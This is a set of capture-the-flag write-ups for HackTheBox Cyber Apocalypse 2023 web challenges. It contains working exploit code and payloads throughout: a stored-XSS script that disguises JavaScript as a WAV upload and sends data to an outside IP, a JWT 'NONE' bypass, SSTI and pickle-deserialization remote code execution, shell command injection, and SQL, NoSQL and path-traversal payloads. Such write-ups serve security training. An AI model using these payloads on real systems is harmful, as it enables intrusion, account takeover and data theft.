 # HTB-CA23
HackTheBox CyberApocalypse 2k23 writeups (Rowra)

## Web/Spybug
* after registering an agent, you can update its details, which is then reflected on the admin site. `XSS` works!
* the page implements `script-src: self` so we can't use `RFI` or even `inline` scripts. That scripts needs to be local!
* we can upload `wav` files which after being uploaded end up in the `/uploads` directory, with a `uuid` name and no extension. No extension can indeed be loaded as working `js`
* the upload process has some validators but they're all easily cheated: the original extension is irrelevant for our payload and the latter check only validates if the proper wave file magic bytes are present in the file, however, it doesn't need to begin with those to pass the test!
* summarizing the steps are:
1. register an agent
2. craft & upload a malicious javascript-wave file 
3. update the agent's details to implement the XSS, using the previously uploaded javascript file - which is local by now
4. wait for the callback and receive the flag

Due to the sheer complexity of this challenge I programmed it:
```
import requests 
import sys 
 
base = 'http://127.0.0.1:1337' 
base = f'http://{sys.argv[1]}' 
s = requests.Session() 
 
def agent_register(): 
    url = f'{base}/agents/register' 
    r = s.get(url) 
    return r.json() 
 
def agent_upload(agent, payload): 
    url = f'{base}/agents/upload/{agent["identifier"]}/{agent["token"]}' 
    mfd = {'recording': ('test.wav', payload, 'audio/wave')} 
 
    r = s.post(url, files=mfd) 
    if r.status_code == 200: 
        return r.text 
    raise Exception('ERROR failed to upload') 
 
def agent_update(agent, data): 
    url = f'{base}/agents/details/{agent["identifier"]}/{agent["token"]}' 
    r = s.post(url, json=data) 
    return 'SUCCESS' if r.status_code == 200 else 'ERROR' 
 
# step 1 agent regisztráció 
agent = agent_register() 
 
# step 2 malicious wav - javascript feltöltés 
payload = b''' 
window.location = 'http://84.236.80.251:4444/' + document.getElementsByTagName("h2")[0].innerText.split("Welcome back ")[1]; 
''' # a lényeg 
payload += b'\n/*' # új sor + egy komment kezdet, biztos ami biztos 
payload += b'\x52\x49\x46\x46\x2f\x2a\x16\x00\x57\x41\x56\x45' # WAVE magicbyte és/vagy ami kell a backendnek 
payload += b'*/' # van egy `/*` karakter a WAVE magic byte -ban, amire sír a JS, szóval le kell zárni :D 
 
filename = agent_upload(agent, payload) 
print(f'Got filename {filename}') 
 
 
# step 3 XSS az admin panelre ;] 
data = {'hostname': f'<script src="/uploads/{filename}"></script>', 
        'platform': 'pwnd by', 
        'arch': 'RWR'} 
 
print(agent_update(agent, data))
 
```

## Web/Didactic Octo Paddle
* in `middleware/AdminMiddleware.js` you can notice the `else` clause in which `jwt.verify` func. call's 2nd parameter is `null`. This means there's not crypt involved. This obviously means very easily crafted JWTs
* the only `algorithm` matching this is `none`, however, the code's supposed to defend against that with an early return in the code
* with some trial & error I managed to bypass the mentioned early return by using the algorithm `NONE` _(capital)_. Meaning the actual working payload as follows _(parts are separated by a `.` dot)_:
1st part: `echo -n '{"typ":"JWT","alg":"NONE"}' | base64`
2nd part: the one you already have, just change `id` to `1` _(admin's id)_
3rd part: empty _(nothing following the `.`)_
* as the webapp's admin, still need to access `/flag.txt`. The code rendering `/admin` endpoint uses `JSRender NodeJS`. All that was left to do is to register a user with a username that's exploiting SSTI and then check `/admin` page for the flag. Working payload:
`{"username":"{{:\"pwnd\".toString.constructor.call({},\"return global.process.mainModule.constructor._load('child_process').execSync('cat /flag.txt').toString()\")()}}","password":"fdg"}`

## Web/Trap Track
* you can read `admin:admin` admin creds from the source code
* you can follow the flow of the code but a check added on the admin page eventually lands at `worker/curltest.py`. It's quite obviously unsanitized, will run anything
* there's a python pickle deserialization which is a pretty bad practice and unsafe if we can control the input. It happens at multiple stages but I chose `application/cache.py`'s `get_job_queue` function as I deemed it pretty stable and easily reproduced at any time. This functions expects a `job_id` after which it'll read the job with that id from redis and unserialize it without any sanitization, again. The API endpoint belonging to this function call is `/api/tracks/<id>/status`
* `libcurl` can do `gopher` and redis may be controller through gopher calls.
* To put it all together and summarize:
1. generate payload:
```
import pickle 
import base64 
import os 
 
class RWR: 
    def __reduce__(self): 
        cmd = '''curl -XPOST http://127.0.0.1:1337/api/tracks/add -d "{\\"trapName\\": \\"`/readflag`\\", \\"trapURL\\": \\"http://1.2.3.4\\"}" -H "Co
ntent-Type: application/json" -H "Cookie: session=<admin cookie here>"''' 
        return os.system, (cmd, ) 
 
 
if __name__ == '__main__': 
    pickled = pickle.dumps(RWR()) 
    b64 = base64.b64encode(pickled).decode() 
    print(f'gopher://127.0.0.1:6379/_hset%20jobs%204444%20{b64}')
```
2. add the `gopher://` link received _(payload)_ on the admin page
3. detonate payload by `GET`ting `/api/tracks/4444/status`
4. go back to the admin site to collect the flag from the name of yet another added entry

## Web/Passman
* register a random user
* play around with the `graphql` queries and realise that `helpers/GraphqlHelper.js` line `#96` `UpdatePassword` does not check anything. A simple auth will do just fine and you can edit anyone's password
* craft a malicious `graphql query`:
{"query":"mutation($username: String!, $password: String!) { UpdatePassword(username: $username, password: $password) { message } }","variables":{"username":"admin","password":"hahayouredone"}}
* login as admin

## Web/Gunhead
* the `/PING` command is pretty shady. Feels like it's passed straight through to shell
* `/ping 127.0.0.1; whoami` works just fine
* `/ping 127.0.0.1; ls /` shows the flag as `/flag.txt`
* `/ping 127.0.0.1; cat /flag.txt`

## Web/Trapped Source
* in the source code you can see the `js` included `/static/js/script.js`
* `script.js` has a function called `checkPin` which checks if entered ping is equal to `CONFIG.correctPin`
* just enter `CONFIG.correctPin` in the browser console and get the correct code `7298`

## Web/Orbital
* in `database.py` you can see that it ojnly queries the user and checks the password later on, trying to prevent sqli. It didnt really work as expected, it's just as vulnerable just maybe a little more difficult. Working payload with `union injection`: `admin" union select "rowra","bb84c3e15018b35b6994f3ad7cb1c453" order by username desc-- -` _(is the username)_ and gecosz is the password
* payload for the `/api/export` endpoint is a simple `LFI`: `{"name": "../signal_sleuth_firmware"}`

## Web/Drobots
* `database.py` hints it's going to be sqli and it's pretty visible too
* login as username `admin` password: `1" or "1"="1"-- -`

## Web/UnEarthly Shop UNFINISHED
* to get the admin password use nosql injection
```
POST /api/products

...
[
{"$match":{"instock":"nope"
}},{"$unionWith":{"coll":"users",
"pipeline": [{
"$project":{
"username": 1,
"password":1
}}
]
}}
]
```
* there's an unsafe `unserialize` call evaluating the `access` property of the user being logged in in `backend/models/UserModel.php`. So all that's left to do is find a working gadget/payload and update the user's access property:
```
POST /admin/api/users/update

...


{"_id":1,"username":"admin","password":"lacika"
,
"access": "<working gadget payload that I didn't find>"
}
```
